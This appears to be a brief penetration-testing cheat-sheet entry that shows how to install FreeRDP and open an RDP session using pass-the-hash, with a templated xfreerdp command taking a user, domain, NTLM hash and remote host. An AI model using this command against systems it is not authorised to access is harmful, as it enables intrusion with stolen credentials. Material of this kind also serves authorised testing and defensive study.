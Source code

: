 ### Install
```
apt install freerdp2-x11
```

### RDP with pass the hash
```
xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<rhost> +clipboard
```

